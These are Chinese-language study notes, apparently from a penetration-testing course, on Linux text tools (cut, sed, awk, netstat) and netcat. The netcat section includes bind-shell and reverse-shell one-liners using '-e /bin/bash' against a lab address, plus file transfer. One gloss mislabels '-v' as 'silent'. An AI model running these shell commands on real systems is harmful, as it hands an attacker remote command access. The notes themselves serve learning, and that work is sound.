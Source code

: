 # 第二章

##命令

### cut
```grep September myfile|cut -d " " -f 2```
意思就是在文件名为myfile的文件中找出带有"September"的条目，并且对这样的条目，以" "来分割成多分，取其中的第二份

### sed
```sed 's/Blackhat/Defcon/' myfile ```
将myfile文件中的Blackhat都替换成Defcon

### awk
- ``` awk '$1 >5' myfile```
显示myfile中每一行第一个词大于5的行

- ``` awk '{print $1,$3;}' myfile ```
显示myfile中每一行的第一个和第三个单词（应该是默认单词都以空格隔开）

### netstat
netstat -antp

## netcat
### 监听、连接发消息

`nc -lvp 1234`

- -l代表listen
- -v 代表verbose 静音
- -p代表port 指定端口

`nc 192.168.20.9 1234`
这样就连接上了这个端口
然后输入hi就可以发送一个hi给对方

### bind shell
server: nc -lvp 1234 -e /bin/bash client: nc 192.168.20.9 1234

### reverse shell
client: nc -lvp 1234
server: nc 192.168.20.9 1234 -e /bin/bash

### 将文件作为 输出或输入
nc -lvp 1234 > netcatfile
nc 192.168.20.9 1234 < mydirectory/file


